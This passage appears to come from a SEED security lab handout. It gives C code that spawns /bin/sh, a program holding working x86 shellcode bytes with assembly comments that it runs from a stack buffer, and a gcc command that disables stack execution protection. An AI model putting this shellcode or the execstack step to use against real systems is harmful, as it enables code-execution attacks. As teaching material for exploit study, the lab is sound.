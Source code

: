 \begin{lstlisting}
#include <stdio.h>

int main() {
   char *name[2];

   name[0] = "/bin/sh";
   name[1] = NULL;
   execve(name[0], name, NULL);
}
\end{lstlisting}
 

The shellcode that we use is just the assembly version of the above program. The following
program shows how to launch a shell by executing a shellcode stored in a buffer. Please
compile and run the following code, and see whether a shell is invoked. You can download
the program from the website. If you are interested in writing your own shellcode, 
we have a separate SEED lab for that purpose. 


\begin{lstlisting}
/* call_shellcode.c: You can get it from the lab's website */

/* A program that launches a shell using shellcode */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

const char code[] =
  "\x31\xc0"         /* Line 1:  xorl    %eax,%eax              */
  "\x50"             /* Line 2:  pushl   %eax                   */
  "\x68""//sh"       /* Line 3:  pushl   $0x68732f2f            */
  "\x68""/bin"       /* Line 4:  pushl   $0x6e69622f            */
  "\x89\xe3"         /* Line 5:  movl    %esp,%ebx              */
  "\x50"             /* Line 6:  pushl   %eax                   */
  "\x53"             /* Line 7:  pushl   %ebx                   */
  "\x89\xe1"         /* Line 8:  movl    %esp,%ecx              */
  "\x99"             /* Line 9:  cdq                            */
  "\xb0\x0b"         /* Line 10: movb    $0x0b,%al              */
  "\xcd\x80"         /* Line 11: int     $0x80                  */
;

int main(int argc, char **argv)
{
   char buf[sizeof(code)];
   strcpy(buf, code);
   ((void(*)( ))buf)( );
} 
\end{lstlisting}
 

Compile the code above using the following \texttt{gcc} command. Run the program
and describe your observations. 
Please do not forget to use the {\tt execstack} option, which allows 
code to be executed from the stack; without this option, the program will fail.


\begin{lstlisting}
$ gcc -z execstack -o call_shellcode call_shellcode.c
\end{lstlisting}



